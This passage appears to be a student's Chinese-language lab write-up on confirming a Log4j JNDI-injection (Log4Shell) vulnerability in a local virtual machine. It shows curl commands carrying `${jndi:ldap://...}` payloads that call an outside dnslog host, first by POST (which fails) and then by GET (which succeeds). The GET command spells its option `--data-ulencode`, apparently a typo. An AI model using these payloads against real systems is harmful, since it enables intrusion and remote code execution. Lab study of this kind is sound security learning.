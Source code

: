 12. 在虚拟机中尝试发送 `POST` 请求，查看是否能够成功触发漏洞。很明显，没有成功。(图片和前面图片的端口不同是因为尝试了多次，但截了这一次的图)
    ```sh
    curl -X POST http://192.168.198.13:31388/hello -d 'payload="${jndi:ldap://v89v2i.dnslog.cn/ajdjd}"' 
    ```
   <div><img src="img/6_尝试POST.png" width=100%></div>
   
   - 再看漏洞代码片段，与老师视频中不同，我们的漏洞代码中 `payload` 是通过 `GET` 请求传参的，而不是 `POST` 请求。但是使用 `GET` 请求 dnslog 网站没有 record。
   <div><img src="img/7_漏洞中是GET.png" width=100%></div>

13. 参考了同学的做法，将 `payload` 改为 `GET` 请求的方式，并绕过 GET 过滤，成功发送请求。
   ```sh
   curl -G http://192.168.198.13:31388/hello --data-ulencode 'payload="${jndi:ldap://tq8lht.dnslog.cn}"'
   ```
   <div><img src="img/8_验证漏洞可利用性.png" width=100%></div>

   - 同时查看 dnslog 网站，新增了两条记录，也就是说它解析了两次这个域名。
   <div><img src="img/8_dnslog记录的record.png" width=100%></div>